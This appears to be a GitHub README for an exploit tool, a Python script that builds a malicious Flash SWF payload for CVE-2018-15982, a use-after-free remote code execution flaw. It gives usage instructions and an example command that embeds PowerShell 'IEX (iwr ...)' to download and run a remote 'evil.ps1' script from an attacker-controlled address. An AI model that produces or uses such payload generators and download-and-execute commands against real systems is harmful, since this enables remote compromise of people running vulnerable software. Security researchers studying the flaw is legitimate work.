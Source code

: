 # Adobe Flash CVE-2018-15982

Script to dynamically create swf payload.  

The script creates a swf payload which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability  is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found here.
https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/


Usage:
python create_swf.py <command> <output file name>
  
Example:
python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf
